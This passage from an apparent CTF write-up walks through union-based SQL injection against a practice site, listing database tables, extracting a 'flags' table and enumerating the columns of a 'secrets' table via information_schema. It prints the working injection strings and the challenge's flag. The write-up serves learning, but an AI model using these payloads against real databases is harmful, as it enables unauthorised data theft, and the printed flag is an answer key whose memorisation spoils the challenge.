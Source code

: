 ```markdown
| events_statements_summary_by_digest                | 2--------     | 3-------     |
| users                                              | 2--------     | 3-------     |
| accounts                                           | 2--------     | 3-------     |
| hosts                                              | 2--------     | 3-------     |
| socket_instances                                   | 2--------     | 3-------     |
| socket_summary_by_instance                         | 2--------     | 3-------     |
| socket_summary_by_event_name                       | 2--------     | 3-------     |
| session_connect_attrs                              | 2--------     | 3-------     |
| session_account_connect_attrs                      | 2--------     | 3-------     |
| flags                                              | 2--------     | 3-------     |
| secrets                                            | 2--------     | 3-------     |
```

{{< /collapsible-block >}}

## Solution

The flags table at the bottom looks interesting. Let's grab it's contents. To get it's contents, I came up with the following query:

```sql
UNION SELECT (SELECT * FROM flags), 2, 3
```

This query also has to be converted to an input first. This will become `' UNION SELECT (SELECT * FROM flags), 2, 3 -- `.

After submitting this input, I got the flag: `NOVI{7h1s_flag_w@s_chuncky_right}`.

\*Note: this only works if a table has only one column, if it has more, you have to get the columns first. See the [Getting the secrets]({{< ref "#getting-the-secrets" >}}) for more info about that.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#6-7).

_For more information about how SQL injection works, please read my [previous post]({{< ref "challenge_5.md" >}})._

## (Optional) Getting the secrets 😋 {#getting-the-secrets}

Because the `secrets` table a more than one column, we need to know the column names first. We can get them with the following query:

```sql
UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_name = "secrets"
```

Converted to an input: `' UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_name = "secrets" -- `.

After remove the results from the original query, we get the following:

| id          | Description | Proof    |
| ----------- | ----------- | -------- |
| id          | 2--------   | 3------- |
| description | 2--------   | 3------- |
| proof       | 2--------   | 3------- |
